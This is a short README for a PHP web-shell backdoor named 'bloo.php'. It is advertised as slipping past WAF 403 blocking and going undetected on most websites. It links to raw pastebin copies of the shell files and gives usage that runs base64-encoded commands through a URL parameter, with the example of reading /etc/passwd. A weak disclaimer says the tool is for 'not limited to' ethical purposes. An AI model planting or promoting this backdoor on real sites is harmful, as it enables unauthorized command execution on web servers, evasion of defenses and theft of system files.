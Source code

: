 # About

This RCE Payload/Backdoor Shell is made to bypass WAF 403 errors. This is also undetected in most websites.

## Pastebin Links
[bloo.php](https://pastebin.com/raw/dYB6V61V) |
[bloopassthru.php](https://pastebin.com/raw/TnRgzxhn)

## Usage

```
bloo.php?bloo=[INSERT BASE64 ENCODED COMMAND]

example: cat /etc/passwd
convert: cat /etc/passwd -> Base64Encode -> Y2F0IC9ldGMvcGFzc3dk

bloo.php?bloo=Y2F0IC9ldGMvcGFzc3dk
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## Discalimer
This is made for but *not limited to* ethical purposes. I am not liable to any misusage of this.

## License
[Bloos3rpent](https://twitter.com/blooserpent)
